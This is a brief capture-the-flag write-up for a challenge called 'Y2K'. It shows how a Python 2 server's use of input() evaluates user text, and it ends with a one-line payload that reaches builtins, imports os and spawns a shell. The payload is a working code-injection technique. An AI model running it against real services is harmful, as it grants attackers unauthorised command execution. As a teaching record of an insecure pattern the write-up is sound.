 # Y2K
They told us the world was going to end in the year 2000! But it didn't... when will the world end? 

## Writeup
1. netcat to the server
```
What year do YOU think the world will end?
a
Traceback (most recent call last):
  File "/home/challenge/server.py", line 4, in <module>
    end = input()
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```

2. It runs python and saves my input, I tried
```
What year do YOU think the world will end?
globals()
Yeah! I agree with you! I also think the world will end in the year
{'end': {...}, '__builtins__': <module '__builtin__' (built-in)>, '__file__': '/home/challenge/server.py', '__package__': None, '__name__': '__main__', '__doc__': None}
```

3. It prints out my input, but that doesn't matter actually. I just called sh and get the shell.
```
globals()['__builtins__'].__dict__['__import__']('os').__dict__['system']('sh')
```